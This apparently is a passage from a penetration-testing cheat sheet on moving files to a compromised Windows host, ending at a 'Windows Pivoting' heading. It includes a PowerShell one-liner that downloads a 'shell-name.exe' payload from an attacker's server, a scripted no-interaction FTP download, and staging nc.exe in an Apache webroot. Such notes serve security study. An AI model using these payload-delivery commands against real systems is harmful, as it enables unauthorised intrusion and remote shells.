 ```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"
```

Creating a server with python3

```shell
python -m http.server
```

Creating a server with python2

```shell
python -m SimpleHTTPServer 80
```

#### FTP

You need to create a FTP server

* Server Linux
Allow anonymous

```shell
python -m pyftpdlib -p 21 -u anonymous -P anonymous
```

* Windows Client

```shell
ftp
open target_ip port
open 192.168.1.22 21
```

we can simply run ftp -s:ftp_commands.txt and we can download a file with no user interaction.

like this:

```shell
C:\Users\kitsunesec\Desktop>echo open 10.9.122.8>ftp_commands.txt  
C:\Users\kitsunesec\Desktop>echo anonymous>>ftp_commands.txt  
C:\Users\kitsunesec\Desktop>echo whatever>>ftp_commands.txt
C:\Users\kitsunesec\Desktop>ftp -s:ftp_commands.txt  
```

#### Apache Server

* server 
Put your files into /var/www/html 

```shell
cp nc.exe /var/www/html
systemctl start apache2
```

* client

Get via web browser, wget or powershell...

### Windows Pivoting

